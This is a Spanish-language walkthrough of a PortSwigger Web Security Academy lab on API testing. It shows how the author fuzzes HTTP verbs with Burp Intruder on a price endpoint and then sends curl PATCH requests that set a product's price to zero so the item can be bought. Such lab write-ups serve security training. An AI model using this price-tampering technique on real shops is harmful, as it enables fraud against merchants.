 ```yaml
---
title: "API Testing Lab 3"
date: 2025-02-16 12:27:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - API Testing
tags:
  - API Testing
  - Finding and exploiting an unused API endpoint
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Finding and exploiting an unused API endpoint

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` el laboratorio, debemos explotar un `endpoint oculto de la API` para comprar una `Lightweight l33t Leather Jacket`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/API-Testing-Lab-3/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/API-Testing-Lab-3/image_2.png)

Si nos `abrimos` el `código fuente` de la `web` nos encontramos estos

![](/assets/img/API-Testing-Lab-3/image_3.png)

Si accedemos a `https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/resources/js/api/productPrice.js` vemos este contenido

```
const Container = class {
    constructor(message, innerClasses, outerClasses) {
        this.message = message;
        this.innerClasses = innerClasses;
        this.outerClasses = outerClasses;
    }

    #build() {
        const outer = document.createElement('div');
        outer.setAttribute('class', this.outerClasses.join(' '))

        const inner = document.createElement('p');
        inner.setAttribute('class', this.innerClasses.join(' '));
        inner.innerHTML = this.message;

        outer.appendChild(inner);

        return outer;
    }

    static Error(message) {
        return new Container(message, ['is-warning'], ['error-message', 'message-container']).#build();
    }

    static ProductMessage(message) {
        return new Container(message, ['product-messaging-content'], ['product-messaging-banner', 'message-container']).#build();
    }

    static RemoveAll() {
        [...document.getElementsByClassName('message-container')].forEach(e => e.parentNode.removeChild(e));
    }
};

const getAddToCartForm = () => {
    return document.getElementById('addToCartForm');
};

const setPrice = (price) => {
    document.getElementById('price').innerText = price;
};

const showErrorMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.Error(message), target);
};

const showProductMessage = (target, message) => {
    Container.RemoveAll();
    target.parentNode.insertBefore(Container.ProductMessage(message), target);
};

const handleResponse = (target) => (response) => {
    if (response.error) {
        showErrorMessage(target, `Failed to get price: ${response.type}: ${response.error} (${response.code})`);
    } else {
        setPrice(response.price);
        if (response.message) {
            showProductMessage(target, response.message);
        }
    }
};

const loadPricing = (productId) => {
    const url = new URL(location);
    fetch(`//${url.host}/api/products/${encodeURIComponent(productId)}/price`)
        .then(res => res.json())
        .then(handleResponse(getAddToCartForm()));
};

window.onload = () => {
    const url = new URL(location);
    const productId = url.searchParams.get('productId');
    if (url.pathname.startsWith("/product") && productId != null) {
        loadPricing(productId);
    }
};
```

Pulsamos sobre `View details > Add to cart` para añadir un producto a nuestro carrito

![](/assets/img/API-Testing-Lab-3/image_4.png)

Si nos abrimos `Burpsuite` y nos dirigimos a la extensión `Logger ++` vemos que al `añadir` un `producto` al `carrito` se hace una petición a `/api/products/1/price`

![](/assets/img/API-Testing-Lab-3/image_5.png)

`Mandamos` la `petición` al `Intruder` y marcamos `GET`

![](/assets/img/API-Testing-Lab-3/image_6.png)

`Añadimos` el `payload` llamado `HTTP verbs`

![](/assets/img/API-Testing-Lab-3/image_7.png)

`Inspeccionamos` las `respuestas` recibidas y vemos un `código de estado 400` con esta `respuesta`

![](/assets/img/API-Testing-Lab-3/image_8.png)

`Enviamos` esta `petición` y nos responde que nos falta un `parámetro` en el `body`

```
# curl -X PATCH -s --cookie 'session=FAsAkXfF7a0bDzIPfF7Pwtsf7xTczZUQ' -H 'Content-Type: application/json' https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/api/products/1/price --data '{}'          
{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}  
```

`Modificamos` el `precio` del `artículo` aparentemente

```
# curl -X PATCH -s --cookie 'session=FAsAkXfF7a0bDzIPfF7Pwtsf7xTczZUQ' -H 'Content-Type: application/json' https://0a05009004d6f6e6801453ce00a2008e.web-security-academy.net/api/products/1/price --data '{"price":0}'         
{"price":"$0.00"} 
```

Si nos `dirigimos` a la `web` podemos confirmarlo

![](/assets/img/API-Testing-Lab-3/image_9.png)

`Pulsamos` sobre `Place Order` y `compramos` el `artículo`

![](/assets/img/API-Testing-Lab-3/image_10.png)

![](/assets/img/API-Testing-Lab-3/image_11.png)
